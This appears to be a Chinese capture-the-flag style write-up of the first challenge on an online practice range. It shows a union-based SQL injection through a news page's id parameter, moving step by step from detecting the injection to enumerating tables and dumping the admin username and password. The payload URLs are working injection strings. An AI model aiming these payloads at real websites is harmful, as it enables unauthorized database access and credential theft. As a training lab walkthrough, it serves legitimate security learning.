 

### 实验平台：封神台-掌控安全在线演练靶场

#### 第一章：为了女神小芳！

传送门：http://rhiq8003.ia.aqlab.cn/

 ![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222102452.png)

实验目标：获取admin的密码

点击查看新闻1，跳转到```http://rhiq8003.ia.aqlab.cn/?id=1```

发现传递的参数名为id

<br>

#### 判断有无注入点

```http://rhiq8003.ia.aqlab.cn/?id=1 and 1=2```

未显示出新闻内容，说明存在注入点

<br>

#### 判断查询字段数

```http://rhiq8003.ia.aqlab.cn/?id=1 order by 2```

显示新闻内容

```http://rhiq8003.ia.aqlab.cn/?id=1 order by 3```

未显示新闻内容

说明共有两个查询字段

<br>

#### 查看显示位置

将id值设置为不存在的数，利用union查询

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1, 2```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222103242.png)

可以看到有一个回显的位置

<br>

#### 查看数据库名，版本，用户名

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1,database()```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222103501.png)

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1,version()```

![image-20211222103541885](E:\学习笔记\封神台第一章：为了女神小芳！.assets\image-20211222103541885.png)

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1,user()```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222103606.png)

<br>

#### 爆数据库表名

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1,group_concat(table_name) from information_schema.tables where table_schema='maoshe'```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222103753.png)

<br>

#### 爆admin表中的字段名

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1,group_concat(column_name) from information_schema.columns where table_name='admin'```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222103923.png)

<br>

#### 查詢admin表中的username，password

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1,group_concat(username) from admin```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222104049.png)

```http://rhiq8003.ia.aqlab.cn/?id=60000 union select 1,group_concat(password) from admin```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20211222104130.png)

可以看到用户admin的密码为hellohack

提交flag结束此题